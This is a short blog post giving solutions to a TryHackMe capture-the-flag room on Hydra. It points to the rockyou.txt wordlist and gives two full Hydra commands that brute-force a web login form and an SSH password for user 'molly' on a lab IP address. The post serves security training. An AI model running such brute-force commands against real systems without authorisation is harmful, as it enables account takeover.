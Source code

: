 ```yaml
---
author: "Denis Nu\u021Biu"
categories:
- Security
- Tooling
date: '2020-02-29T23:31:01+00:00'
guid: https://nuculabs.dev/?p=869
id: 869
layout: post
permalink: /2020/02/29/brute-forcing-passwords-with-hydra/
tags:
- bruteforcing
- kali linux
- penetration testing
title: Brute-forcing passwords with Hydra
---
```

Hello,


In this article you will find the solutions for the Hydra room on Try Hack Me.


Link: 


Almost every bruteforcing or cracking task from HackTheBox/TryHackMe uses the rockyou.txt wordlist. You can google it and download it, if you can’t find it in your Kali distro under the path **/usr/share/wordlists/rockyou.txt.gz**


If you’re using Kali then you have Hydra already installed, all you have to do is run two commands:


### Flag 1


Run the following command, the password should be cracked in less than one minute.


```
root@kali:~/Desktop# hydra -l molly -P rockyou.txt 10.10.86.187 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
### Flag 2


Start bruteforcing the ssh password then logon via ssh as molly to grab the flag.


```
root@kali:~/Desktop# hydra -l molly -P rockyou.txt 10.10.86.187 -t 4 ssh
```

Thanks for reading!